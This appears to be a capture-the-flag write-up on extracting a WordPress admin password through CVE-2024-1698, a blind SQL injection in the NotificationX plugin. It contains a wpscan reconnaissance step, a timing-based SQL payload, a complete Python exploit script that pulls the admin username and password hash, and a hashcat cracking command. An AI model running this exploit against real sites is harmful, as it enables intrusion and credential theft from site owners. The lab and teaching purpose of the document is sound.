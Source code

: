 # CTF Week #8 (SQL Injection)

## Recognition

In this CTF, the goal was to extract the admin password of a given website.

We started by gathering information about the website, specifically the installed software. On the homepage, we found that the site was running on WordPress. To gather additional information, we used the `wpscan` tool with the command: `wpscan --url http://44.242.216.18:5008/`

The output (Irrelevant parts of the output have been omitted for clarity.):

```
[+] URL: http://44.242.216.18:5008/ [44.242.216.18]
[+] Started: Sat Nov 16 22:22:53 2024

Interesting Finding(s):

[+] WordPress version 6.7 identified (Latest, released on 2024-11-12).
 | Found By: Rss Generator (Passive Detection)
 |  - http://44.242.216.18:5008/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/comments/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/sample-page/feed/, <generator>https://wordpress.org/?v=6.7</generator>

[i] Plugin(s) Identified:

[+] notificationx
 | Location: http://44.242.216.18:5008/wp-content/plugins/notificationx/
 | Last Updated: 2024-10-27T10:43:00.000Z
 | [!] The version is out of date, the latest version is 2.9.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 2.8.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt

```

As we can see, the `wpscan` tool identified that the NotificationX plugin was outdated (latest version: 2.9.2), which presented a possible attack vector.

## CVE Research

Using the [CVE database](https://cve.mitre.org/), we queried for vulnerabilities affecting:

* WordPress version 6.7
* NotificationX version 2.8.1
* SQL Injection 

`CVE-2024-1698` is known vulnerability with 9.8 CRITICAL CVSS score, that works on NotificationX plugin for WordPress in all versions up to and including 2.8.2 (patched in 2.8.3). Plugin is vulnerable to SQL Injection via the `type` parameter on the `notificationx/v1/analytics` endpoint.

## Exploit

To exploit the vulnerability, we used script found in the [GitHub Repository](https://github.com/shanglyu/CVE-2024-1698).

Some explanation:

The exploit works by using blind SQL injection with a timing-based attack to infer information about the database. The vulnerability lies in the type parameter, which is passed into an SQL query without proper sanitization.

The attacker sends payloads that include the `SLEEP()` function to create a delay if a condition is true.
```sql
IF(ASCII(SUBSTRING((SELECT user_pass FROM wp_users WHERE id=1), <letter_position>, 1))=<letter>, SLEEP(10), NULL)-- -
```
It checks if `<letter_position>` character of the admin's password hash has an ASCII value `<letter>`, and if it true it will it will have 10 second delay. The code from the repository automates this process.


Code used for attack, (we updated the `url` variable and set `delay_time` to 10 seconds.)
```py
import requests
from sys import exit

delay_time = 10

url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

session = requests.Session()

query_user = "SELECT user_login FROM wp_users WHERE id=1"
query_pass = "SELECT user_pass FROM wp_users WHERE id=1"

def get_data(query,field_name):
    result = ""
    for char_position in range(1,40):
        for ascii_value in range(256):
            payload = {
                "nx_id" : 10,
                "type" : f"clicks`=IF(ASCII(SUBSTRING(({query}),{char_position},1)) = {ascii_value}, sleep({delay_time}),null)-- -"
            }
            response = session.post(url, data=payload)
            
            if response.elapsed.total_seconds() > delay_time:
                result += chr(ascii_value)
                print(result)
                if ascii_value == 0: #null byte
                    print(f"[*]{field_name} : {result}")
                    return result
                break

username = get_data(query_user, "Username")
password_hash = get_data(query_pass, "Password hash")
```

The output:

<p align="center" justify="center">
  <img src="./assets/CTF8/result.png"/>
</p>

The hashed admin's password: `$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10`.

## Finding the Password

The admin's password was stored as a hash using the default PHPass mechanism.

To crack the retrieved hash, we used Hashcat with the following command: 

```bash
hashcat -O -m 400 -a 0 -o cracked.txt hash.txt rockyou.txt
```

The rockyou.txt we got from this [link](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

The cracked password (flag) is saved in the `cracked.txt`.
